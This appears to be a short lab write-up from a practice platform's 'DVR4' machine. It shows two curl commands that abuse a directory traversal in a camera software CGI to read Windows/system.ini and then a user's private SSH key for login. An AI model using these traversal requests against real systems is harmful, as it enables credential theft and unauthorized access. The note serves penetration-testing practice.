






Checking Users:


We discover a directory traversal exploit:


Trying this:
```
curl "http://192.168.216.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```
Now trying to get a ssh key:
```
curl "http://192.168.216.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

Now login at [[PG Practice/DVR4/22]]